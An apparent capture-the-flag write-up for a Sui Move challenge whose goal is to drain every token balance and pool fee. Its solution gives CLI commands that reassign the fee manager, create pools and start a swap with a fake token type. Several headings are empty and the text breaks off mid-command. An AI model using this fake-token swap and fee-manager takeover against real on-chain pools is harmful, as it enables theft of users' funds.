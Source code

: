Challenge Environment:

Condition:
- All tokens' balances are taken away:
    ```
    get_balance<TOKEN1>(pools) + get_balance<TOKEN2>(pools) + get_balance<TOKEN3>(pools) + get_balance<TOKEN4>(pools) == 0
    ```
- All pools' fees are taken away:
    ```
    get_total_fee<TOKEN1, TOKEN2>(pools) + get_total_fee<TOKEN3, TOKEN4>(pools) == 0
    ```
Key Concept:

Idea:

Solution:
1. set fee manager & create pool cap
    ```
    sui client ptb \
      --move-call "PACKAGE_ID::pool::set_fee_manager" \
      "pools" \
      "new_fee_manager" \
      --move-call "PACKAGE_ID::pool::create_pool" \
      "pools" \
      "fee" \
      "token1" \
      "token2" \
    ```
    ```move
    sui client ptb \
      --move-call "0x8d25f9c2391ce26e1fa9d0d30b639994f3e3ba0c9220a95fb4a8ab2b00bb319c::pool::set_fee_manager" \
      "@0xe85984a7a8aac6060cf3084f33ef3ff090e2305253253cf320a8d2638f69a3ab" \
      "@0x0660124982fd10e3c9ed11e55b445e5dee03b8db9408ea87f1c198d83b3f8bf0" \
      --move-call "0x8d25f9c2391ce26e1fa9d0d30b639994f3e3ba0c9220a95fb4a8ab2b00bb319c::pool::create_pool" \
      "<0x8d25f9c2391ce26e1fa9d0d30b639994f3e3ba0c9220a95fb4a8ab2b00bb319c::token1::TOKEN1,0x8d25f9c2391ce26e1fa9d0d30b639994f3e3ba0c9220a95fb4a8ab2b00bb319c::token2::TOKEN2>" \
      "@0xe85984a7a8aac6060cf3084f33ef3ff090e2305253253cf320a8d2638f69a3ab" \
      "0" \
      "@0xca558b6fdde1e8b0407bc8b4ee8beff76b1465e11b04999e2eefffeb62fdd57b" \
      "@0x00e809b87a9968bdc754854db9ba67a4713587ff151c40ab9a0576b9f83acd41" \
      --assign pool_1_2 \
      --move-call "0x8d25f9c2391ce26e1fa9d0d30b639994f3e3ba0c9220a95fb4a8ab2b00bb319c::pool::create_pool" \
      "<0x8d25f9c2391ce26e1fa9d0d30b639994f3e3ba0c9220a95fb4a8ab2b00bb319c::token3::TOKEN3,0x8d25f9c2391ce26e1fa9d0d30b639994f3e3ba0c9220a95fb4a8ab2b00bb319c::token4::TOKEN4>" \
      "@0xe85984a7a8aac6060cf3084f33ef3ff090e2305253253cf320a8d2638f69a3ab" \
      "0" \
      "@0x189cd526c3767e6b9e3de45ecbc6e879c4e4bdce114dfc2baa0d3f6217e88738" \
      "@0xd8910dba6391249ee9e34e086923cef46b2c1734435778d284f1ae0c6938dcf6" \
      --assign pool_3_4 \
      --transfer-objects "[pool_1_2, pool_3_4]" "@0x0660124982fd10e3c9ed11e55b445e5dee03b8db9408ea87f1c198d83b3f8bf0" \
    ```
2. create fake token, fakeId: 
3. use fake token to swap
    ```
    sui client ptb \
      --move-call "PACKAGE_ID::pool::swap_a_2_b" \
      "<fake_token1_type,token2_type>" \
      "pools" \
      "fake_token1" \
      --assign coin_2 \
